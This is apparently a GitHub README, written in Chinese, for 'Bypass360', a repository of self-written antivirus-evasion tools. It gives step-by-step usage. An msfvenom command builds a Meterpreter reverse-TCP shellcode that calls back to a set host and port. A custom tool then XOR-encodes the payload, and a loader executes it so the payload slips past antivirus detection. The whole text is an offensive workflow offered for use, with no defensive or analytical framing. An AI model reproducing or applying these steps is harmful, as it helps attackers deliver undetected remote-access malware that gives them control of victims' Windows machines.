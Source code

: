 # Bypass360
该仓库用于放置自己编写绕过杀软的程序
使用方法：
1.用MSF生成完整的shellcode：msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.43.147 lport=4444 -f raw > beacon.bin
2.然后用XorEncode.exe加密生成的shellcode文件：XorEncode.exe beacon.bin，结果会生成一个EncodeRAWData
3.最后用ProcessTest.exe执行加密后的文件EncodeRAWData：ProcessTest.exe EncodeRAWData
